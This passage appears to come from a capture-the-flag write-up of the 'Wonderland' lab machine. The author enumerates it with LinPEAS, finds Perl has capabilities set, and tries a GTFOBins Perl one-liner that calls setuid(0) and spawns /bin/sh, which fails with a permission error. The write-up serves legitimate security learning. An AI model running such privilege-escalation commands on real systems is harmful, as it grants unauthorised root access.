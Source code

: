 ![wonderland_date.png](../assets/wonderland_assets/wonderland_date.png)

From here I loaded up LinPEAS to help enumerate I see that Perl has capabilities set:

![wonderland_lp1.png](../assets/wonderland_assets/wonderland_lp1.png)

Heading to GTFOBins.com we find the command we'll need to exploit this:

![wonderland_gtfobins.png](../assets/wonderland_assets/wonderland_gtfobins.png)

However every time I issued the command I received Permission Denied errors, which was odd:

```
hatter@wonderland:/home/hatter$ whoami
hatter
hatter@wonderland:/home/hatter$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
bash: /usr/bin/perl: Permission denied
```
